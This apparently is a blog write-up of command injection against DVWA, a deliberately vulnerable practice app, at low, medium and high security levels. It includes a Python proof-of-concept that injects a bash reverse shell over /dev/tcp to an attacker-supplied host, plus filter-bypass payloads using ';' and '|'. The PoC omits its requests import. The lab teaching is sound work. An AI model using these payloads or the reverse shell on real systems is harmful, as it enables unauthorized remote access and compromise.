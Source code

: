 ```yaml
---
title: DVWA Command Injection
# author: Gauranga
date: 2024-03-06 04:45:00 GMT+5:45
categories: [Writing]
tags: [cybersecurity, DVWA, command injection, web security, vulnerability, exploitation, proof of concept]
pin: true
math: true
mermaid: true
image: https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection-910x478.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


## Low Level

- **Functionality Check**: Application accepts input in `ip` parameter, directly passed to `shell_exec()`.
- **Injection**: Concatenated `;ls -la` as payload.
- **Vulnerability**: Lack of input validation allows command execution.

![](assets/cj/Untitled.png)

```python
import sys

url = "<http://127.0.0.1:42001/vulnerabilities/exec/>"

headers = {
    "Cookie": "PHPSESSID=<id>; security=<>"
}

def main():
    try:
        ip = f"bash -c 'bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1'"
        data = {
            "ip": ";" + ip,
            "Submit": "Submit",
        }
        response = requests.post(url, headers=headers, data=data)

        if "www-data" in response.text:
            print("success")
        else:
            print("failed")
    except Exception as e:
        print("An error occurred:", e)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 poc.py <lhort> <lport>")
        sys.exit(1)
    else:
        main()
```

- The script serves as a Proof of Concept (PoC) to exploit a command injection vulnerability in a web application.
- It demonstrates how an attacker can execute arbitrary commands on the target system through the vulnerability.
- By injecting specially crafted commands, the attacker gains unauthorized access to the system.
- This unauthorized access can lead to further exploitation, such as data theft, system compromise, or launching other attacks.
- It's crucial to emphasize that exploiting vulnerabilities without proper authorization is both illegal and unethical.

---

## Medium Level

- **Functionality Check**: Application continues to execute OS commands.
- **Input Validation**: Concatenated `|` as payload.
- **Bypass**: Used `|ls -la` payload for successful execution.

![](assets/cj/Untitled 1.png)

---

## High Level

- **Functionality Check**: Application still executes OS commands.
- **Tightened Validation**: Additional characters like `&`, ``, `$`, `(` replaced with space.
- **Bypass**: Identified space after `|` character, used `127.0.0.1|ls -ls` payload for success.

![](assets/cj/Untitled 2.png)

---